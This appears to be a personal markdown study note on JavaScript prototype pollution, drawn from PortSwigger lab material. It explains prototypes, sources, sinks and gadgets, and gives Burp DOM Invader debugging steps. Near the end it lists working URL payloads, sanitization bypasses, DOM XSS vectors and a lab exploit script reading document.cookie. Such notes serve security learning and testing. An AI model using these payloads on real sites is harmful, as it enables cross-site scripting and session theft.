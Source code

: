 ### Prototype Pollution
  - https://portswigger.net/web-security/prototype-pollution/javascript-prototypes-and-inheritance
  - Objects in js is key value pair
  - ```
    const user =  {
    username: "wiener",
    userId: 01234,
    exampleMethod: function(){
        // do something
    }
}```
   - Every object is linked to another object, and that object is linked to another object, untill null.
   - Ex: in JS, String are autoassign `String.prototype`. This becomes helpful, because a lot of methods like `Trim()` are in that prototype so string object can use them directly.
   - JavaScript engine first tries to access this directly on the object itself. If the object doesn't have a matching property, the JavaScript engine looks for it on the object's prototype instead.
   - Although this doesn't have a formally standardized name, __proto__ is the de facto standard used by most browsers
   - We can modify prototypes ```String.prototype.removeWhitespace = function(){
    // remove leading and trailing whitespace
}```
  - https://portswigger.net/web-security/prototype-pollution
  -  Prototype pollution vulnerabilities typically arise when a JavaScript function recursively merges an object containing user-controllable properties into an existing object, without first sanitizing the keys.
  -  Due to the special meaning of `__proto__` in a JavaScript context, the merge operation may assign the nested properties to the object's prototype instead of the target object itself. As a result, the attacker can pollute the prototype with properties containing harmful values, which may subsequently be used by the application in a dangerous way. This can allow an attacker to inject a property with a key like __proto__, along with arbitrary nested properties.
```
b = {"foo":"bar"}
a = b


console.log("Before assigning to a look at b proto",b.__proto__)
a.__proto__={"hidden_foo":"hidden_bar"}
console.log("a has hidden proto",a.__proto__);
console.log("Due to unsafe merging b also has it",b.__proto__)
```
  -  Successful exploitation of prototype pollution requires the following key components:
    - A prototype pollution source - This is any input that enables you to poison prototype objects with arbitrary properties. Commonly, URL, JSON input, web messages
    - A sink - In other words, a JavaScript function or DOM element that enables arbitrary code execution.
    - An exploitable gadget - This is any property that is passed into a sink without proper filtering or sanitization.
 - Client Side:
   1. Try to inject an arbitrary property via the query string, URL fragment, and any JSON input. For example:
    ```vulnerable-website.com/?__proto__[foo]=bar```
   2. In your browser console, inspect Object.prototype to see if you have successfully polluted it with your arbitrary property:
   ```
   	Object.prototype.foo
	// "bar" indicates that you have successfully polluted the prototype
	// undefined indicates that the attack was not successful
   ```
   3. If the property was not added to the prototype, try using different techniques, such as switching to dot notation rather than bracket notation, or vice versa:
	```vulnerable-website.com/?__proto__.foo=bar```
   4. Repeat this process for each potential source.
   5. In BURP, we can use DOM invader https://portswigger.net/burp/documentation/desktop/tools/dom-invader/prototype-pollution#detecting-sources-for-prototype-pollution
   6. Now Find gadget
   7. Look through the source code and identify any properties that are used by the application or any libraries that it imports.
   8. In Burp, enable response interception (Proxy > Options > Intercept server responses) and intercept the response containing the JavaScript that you want to test.
   9. Add a debugger statement at the start of the script, then forward any remaining requests and responses.
   10. In Burp's browser, go to the page on which the target script is loaded. The debugger statement pauses execution of the script.
   11. While the script is still paused, switch to the console and enter the following command, replacing YOUR-PROPERTY with one of the properties that you think is a potential gadget:
   12. Object.defineProperty(Object.prototype, 'YOUR-PROPERTY', {
    get() {
        console.trace();
        return 'polluted';
    }
})
    13. The property is added to the global Object.prototype, and the browser will log a stack trace to the console whenever it is accessed.
    14. Press the button to continue execution of the script and monitor the console. If a stack trace appears, this confirms that the property was accessed somewhere within the application.
    15. Expand the stack trace and use the provided link to jump to the line of code where the property is being read.
    16. Using the browser's debugger controls, step through each phase of execution to see if the property is passed to a sink, such as innerHTML or eval().
    17. Repeat this process for any properties that you think are potential gadgets.
  - https://gowthams.gitbook.io/bughunter-handbook/list-of-vulnerabilities-bugs/prototype-pollution
  - DOM invador is the way to go, makes life much easier, note: sometimes extra chars like `1` is being appended like this`if(manager && manager.sequence){ manager.macro(ar2z0fxj6prototypepollutionsequencear2z0fxj1) }` so add `-` in the end to ignore the 1.

### Via the constructor
	- sometimes the `__proto__` accessor is blocked, we maybe able to use `constructor` property.
### quick check
https-//example.com/?__proto__[foo]=bar
https-//example.com/?__proto__.foo=bar
https-//example.com/?constructor.[prototype][foo]=bar
https-//example.com/?constructor.prototype.foo=bar
# Bypass sanitization
https-//example.com/?__pro__proto__to__[foo]=bar`

https-//example.com/?__pro__proto__to__.foo=bar

https-//example.com/?constconstructorructor[prototype][foo]=bar

https-//example.com/?constconstructorructor.prototype.foo=bar

https-//example.com/?constconstructorructor[protoprototypetype][foo]=bar

https-//example.com/?constconstructorructor.protoprototypetype.foo=bar


Check in browser
Object.prototype.foo
constructor.prototype.foo

// the expected output: "bar"

# DOM XSS
https-//example.com/?__proto__[source_url]=data:,alert(1);

https-//example.com/?__proto__[source_url]=data:,alert(1);

https-//example.com/?__proto__[source_url]=alert(1)-

source_url can be [transport_url]

# vulnerable 3rd party library
<script>
    location="https://0a1c00af03786a9a80204452004a00a7.web-security-academy.net/#__proto__[hitCallback]=alert%28document.cookie%29"
</script>
Here 0a1c00af03786a9a80204452004a00a7.web-security-academy.ne is vulnerable
